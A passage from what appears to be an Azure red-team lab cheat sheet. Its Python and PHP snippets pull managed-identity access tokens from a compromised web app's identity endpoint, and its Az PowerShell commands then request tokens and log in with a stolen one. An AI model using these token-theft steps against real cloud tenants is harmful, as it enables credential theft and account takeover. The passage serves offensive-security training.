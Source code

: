 ```powershell
print("ClientID: "+json.loads(val)["client_id"])

cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)

val = os.popen(cmd).read()
print("\r\n[+] Graph API")
print(json.loads(val)["access_token"])
print("ClientID: "+json.loads(val)["client_id"])
```

#### PHP

```powershell
<?php 

system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

?>
```

### Using tokes with CLI Tools - AZ PowerShell

#### Request access token

```powershell
Get-AzAccessToken
(Get-AzAccessToken).Token
```

#### Request an access token for AAD Graph to access Azure AD

* Supported tokens - AadGraph, AnalysisServices, Arm, Attestation, Batch, DataLake, KeyVault, OperationalInsights, ResourceManager, Synapse

```powershell
Get-AzAccessToken -ResourceTypeName AadGraph
```

#### Request token for microsoft graph

```powershell
(Get-AzAccessToken -Resource "https://graph.microsoft.com").Token
```

#### Use the access token

```powershell
Connect-AzAccount -AccountId test@defcorphq@onmicrosoft.com -AccessToken eyJ0eXA...
```

#### Use other access token

* In the below command, use the one for AAD Graph (access token is still required) for accessing Azure AD
